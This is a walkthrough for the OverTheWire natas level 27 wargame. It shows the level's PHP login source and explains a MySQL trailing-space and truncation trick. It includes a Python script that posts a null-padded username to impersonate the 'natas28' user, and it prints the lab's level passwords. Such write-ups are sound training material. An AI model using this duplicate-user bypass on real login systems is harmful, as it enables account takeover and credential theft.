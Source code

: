 ```yaml
---
title: natas 27 walkthrough
description: over the wire natas 27
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-27 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 27 walkthrough
    order: 30
---
```

## Description
> Username: natas27
> 
> URL:      http://natas27.natas.labs.overthewire.org

### Source Code
```php
<?php

// morla / 10111
// database gets cleared every 5 min


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/


function checkCredentials($link, $usr, $pass)
{

    $user = mysqli_real_escape_string($link, $usr);
    $password = mysqli_real_escape_string($link, $pass);

    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysqli_query($link, $query);
    if (mysqli_num_rows($res) > 0) {
        return True;
    }
    return False;
}


function validUser($link, $usr)
{

    $user = mysqli_real_escape_string($link, $usr);

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if ($res) {
        if (mysqli_num_rows($res) > 0) {
            return True;
        }
    }
    return False;
}


function dumpData($link, $usr)
{

    $user = mysqli_real_escape_string($link, trim($usr));

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if ($res) {
        if (mysqli_num_rows($res) > 0) {
            while ($row = mysqli_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!
                //return print_r($row);
                return print_r($row, true);
            }
        }
    }
    return False;
}


function createUser($link, $usr, $pass)
{

    if ($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }
    $user = mysqli_real_escape_string($link, substr($usr, 0, 64));
    $password = mysqli_real_escape_string($link, substr($pass, 0, 64));

    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    $res = mysqli_query($link, $query);
    if (mysqli_affected_rows($link) > 0) {
        return True;
    }
    return False;
}


if (array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas27', '<censored>');
    mysqli_select_db($link, 'natas27');


    if (validUser($link, $_REQUEST["username"])) {
        //user exists, check creds
        if (checkCredentials($link, $_REQUEST["username"], $_REQUEST["password"])) {
            echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
            echo "Here is your data:<br>";
            $data = dumpData($link, $_REQUEST["username"]);
            print htmlentities($data);
        } else {
            echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
        }
    } else {
        //user doesn't exist
        if (createUser($link, $_REQUEST["username"], $_REQUEST["password"])) {
            echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
        }
    }

    mysqli_close($link);
} else {
}
```

---
## Progress
### Observation
First, I noticed that sql injection might be prevented by `mysqli_real_escape_string`. While digging information, I found a [stackoverflow discussion](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string) which is marvelous. It shows the original answer and why the payload was constructed. Back to the topic, refer to that discussion, it seems to be impossible to bypass `mysqli_real_escape_string`.

The last hope would be `htmlentities`. It seems that it can do nothing.
### Get a Hint
From this [natas hint site](https://onestepcode.com/no-solution-natas-guide-overthewire/). It says 
> The username column is not defined as unique

### Plan
All we need to do is construct a username that would be `natas28` when it's store into the database. In other words, we need to meet a few conditions
1. `$usr != trim($usr)`
2. `mysqli_real_escape_string($link, substr($usr, 0, 64)) == 'natas28'`
All the special characters we need can be found at [php manual](https://www.php.net/manual/en/mysqli.real-escape-string.php).
### Pwn
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas27"
password = "PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas27.natas.labs.overthewire.org/"
    payload = {
        "username" : "natas28" + "\0"*63 + "3",
        "password" : "123"
    }
    _ = requests.post(main_url, payload, auth=authentication)
    payload = {
        "username" : "natas28",
        "password" : "123"
    }
    response = requests.post(main_url, payload, auth=authentication)
    print(get_content(response))

main()
```
skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4

### SQL Trailing Spaces
Although I got the password, that was achieved by chance, not a good plan nor clear understanding.

How mySQL treats trailing spaces plays a significant role in this problem. By [the document](https://dev.mysql.com/doc/refman/8.4/en/charset-binary-collations.html#charset-binary-collations-trailing-space-comparisons) and my search,
![[mysql_ascii.png]]
we know
1. For `PAD SPACE` collations, trailing spaces are insignificant in comparisons; strings are compared without regard to trailing spaces.
2. ascii is `PAD SPACE` collations in mysql
Therefore, trailing spaces would be ignored.
![[mysql_trailing_spaces_comparison.png]]

---
## Hint

---
## Solving
### Category
- 
### Techniques
- 

### Tools
- 